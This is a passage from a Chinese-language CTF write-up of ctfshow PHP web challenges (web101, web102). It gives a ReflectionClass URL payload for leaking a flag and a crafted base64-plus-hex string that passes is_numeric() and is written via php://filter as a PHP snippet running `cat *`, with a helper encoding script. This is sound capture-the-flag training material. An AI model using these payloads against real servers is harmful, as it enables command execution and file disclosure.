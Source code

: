 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101515863.png)

比上题增加了更多的过滤, 而且单引号和 `$` 都被过滤了

ctfshow 关键词只能以字符串的形式出现, 刚好最近在学 Java 的反射, 想着 php 会不会也有...

[https://www.php.net/manual/zh/class.reflectionclass.php](https://www.php.net/manual/zh/class.reflectionclass.php)

下划线过滤了, 不能用 `var_dump()` 之类的函数, 但是 ReflectionClass 存在 `__toString()` 的魔术方法, 可以尝试 echo 输出

```
http://38ac8284-df96-4128-b419-a89849950fa7.challenge.ctf.show/?v1=123&v2=echo new ReflectionClass&v3=;
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101525170.png)

hint 提示 flag 末尾少一位, 需要手工 `0-f` 都试一下

## web102

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101530607.png)

回调函数

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101532765.png)

这里的 `is_numeric()` 是识别科学计数法的, `0123e45678` 返回 true, 但只要包含了非 `e` 的其他字母则会返回 false

`$v2` 必须为数字, 第一时间就想到了 `hex2bin()`, 但是 `<` hex 的结果是 `0x3c`, 含有非 `e` 字母

然后又想到 php://filter, 写入的时候 base64 decode 一下或许可以?

但问题是 base64 的部分字符串 hex 之后存在非 `e` 字母, 例如

```
jklmoz 6a6b6c6d6f7a
JKLMOZ 4a4b4c4d4f5a
/ 2f
```

那么我们需要找到一个合适的 payload , 使它经过 base64 + hex 之后的字符串仅包含 `[0-9]` 和 `e`, 才能够绕过 `is_numeric()` 的检测

```php
<?php
echo bin2hex(str_replace('=', '', base64_encode($_GET[1])));
?>
```

测试出来这个

```
5044383959474e6864434171594473 // <?=`cat *`;
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101634569.png)
